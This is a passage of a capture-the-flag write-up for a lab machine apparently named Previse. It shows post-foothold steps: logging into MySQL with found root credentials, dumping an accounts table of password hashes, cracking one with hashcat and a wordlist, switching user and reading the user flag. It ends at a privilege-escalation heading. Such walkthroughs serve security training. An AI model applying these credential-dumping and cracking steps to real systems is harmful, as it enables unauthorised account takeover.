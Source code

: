 11. List users
```bash
bash-4.4$ cd /home/
bash-4.4$ ls
m4lwhere
```


12. Connect to mysql with previous credentials `root:mySQL_p@ssw0rd!:)`
```bash
bash-4.4$ mysql -uroot -p
Enter password:



Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

13. Search credentials of **m4lwhere user**
```sql
mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | EsTX123  | $1$🧂llol$G2AhKNxd48OxGyQHpyiQr. | 2022-12-29 16:19:06 |
|  3 | hamoud   | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2022-12-29 18:53:17 |
+----+----------+------------------------------------+---------------------+
```
> Credential is in **Previse Database** and **Accounts Table**


14. Crack this hash with hashcat
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Previse]
└─| hashcat -a 0 -m 500 hash /home/kali/Desktop/rockyou.txt
```

* This process take a lot time.

15. Finalized crack, the password is: `ilovecody112235!`

16. Convert in user m4lwhere and cat user flag
```bash
bash-4.4$ su m4lwhere
Password: 
bash-4.4$ whoami
m4lwhere
bash-4.4$ cd 
bash-4.4$ cat user.txt 
09ea88979add815948180f0a5a164297
```

---
---
---
### **Privileges Escalation** 💀
